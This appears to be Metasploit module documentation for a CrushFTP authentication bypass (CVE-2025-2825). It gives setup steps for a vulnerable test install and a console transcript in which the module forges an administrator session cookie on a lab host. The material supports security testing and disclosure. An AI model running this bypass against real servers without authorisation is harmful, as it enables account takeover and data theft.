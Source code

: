 ## Vulnerable Application
This module leverages an authentication bypass in CrushFTP 11 < 11.3.1 and 10 < 10.8.4. Attackers
with knowledge of a valid username can provide a crafted S3 authentication header to the CrushFTP web API
to authenticate as that user without valid credentials. When successfully executed, the exploit will
output working session cookies for the target user account. This vulnerability is tracked as CVE-2025-2825.
More information can be found in the [Rapid7 AttackerKB Analysis](https://attackerkb.com/topics/k0EgiL9Psz/cve-2025-2825/rapid7-analysis).

## Options

### TARGETUSER
The target account to forge a session cookie for (default: crushadmin).

## Testing
To set up a test environment:
1. Download a vulnerable 11.3.0 'CrushFTP.jar' file (SHA256: 6fbca7826d967bc56effb376743ff7921df907c576da74252844db9aeb0385a4).
2. Configure `CRUSH_DIR` in `crushftp_init.sh` to point to the correct install directory.
3. Execute `java -jar CrushFTP.jar` to show a local client GUI interface that can be used to set up an admin account.
4. Execute `sudo crushftp_init.sh start` to launch the software on Linux or Mac. If on Windows, run `CrushFTP.exe` as an administrator.
5. Follow the verification steps below.

## Verification Steps
1. Start msfconsole
2. `use auxiliary/gather/crushftp_authbypass_cve_2025_2825`
3. `set RHOSTS <TARGET_IP_ADDRESS>`
4. `set RPORT <TARGET_PORT>`
5. `set TARGETUSER <TARGET_USER>`
7. `run`

## Scenarios
### CrushFTP on Windows, Linux, or Mac
```
msf > use auxiliary/gather/crushftp_authbypass_cve_2025_2825
msf auxiliary(gather/crushftp_authbypass_cve_2025_2825) > set RHOSTS 192.168.181.129
RHOSTS => 192.168.181.129
msf auxiliary(gather/crushftp_authbypass_cve_2025_2825) > set RPORT 8080
RPORT => 8080
msf auxiliary(gather/crushftp_authbypass_cve_2025_2825) > set TARGETUSER crushadmin
TARGETUSER => crushadmin
msf auxiliary(gather/crushftp_authbypass_cve_2025_2825) > show options

Module options (auxiliary/gather/crushftp_authbypass_cve_2025_2825):

   Name        Current Setting  Required  Description
   ----        ---------------  --------  -----------
   Proxies                      no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS      192.168.181.129  yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT       8080             yes       The target port (TCP)
   SSL         false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI   /                yes       The URI path to CrushFTP
   TARGETUSER  crushadmin       yes       The target account to forge a session cookie for
   VHOST                        no        HTTP server virtual host


View the full module info with the info, or info -d command.

msf auxiliary(gather/crushftp_authbypass_cve_2025_2825) > run
[*] Running module against 192.168.181.129

[*] Confirming the target is a CrushFTP web service
[*] Attempting to bypass authentication
[+] The target returned the expected empty response and is likely vulnerable
[*] Attempting to access an authenticated API endpoint with the malicious session cookie
[+] Authentication bypass succeeded! Cookie string generated
Cookie: CrushAuth=1743641873_PrrQtXKr3iuXBCqQIPcIbfx20w5uW3; currentAuth=5uW3

[*] Auxiliary module execution completed
```
